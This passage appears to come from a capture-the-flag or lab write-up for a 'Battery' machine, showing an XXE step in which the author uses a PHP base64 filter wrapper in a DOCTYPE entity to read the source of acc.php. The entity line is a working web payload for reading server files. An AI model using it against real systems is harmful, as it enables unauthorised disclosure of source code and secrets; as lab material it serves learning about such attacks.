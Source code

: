 ![Untitled](/assets/Battery%20images/Untitled%2010.png)

There might be a trigger error with the **xml parser**. Though, I use the **php filter** to exfiltrate the data and encode the data to **base64**:

```
<!DOCTYPE search [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=acc.php"> ]
```
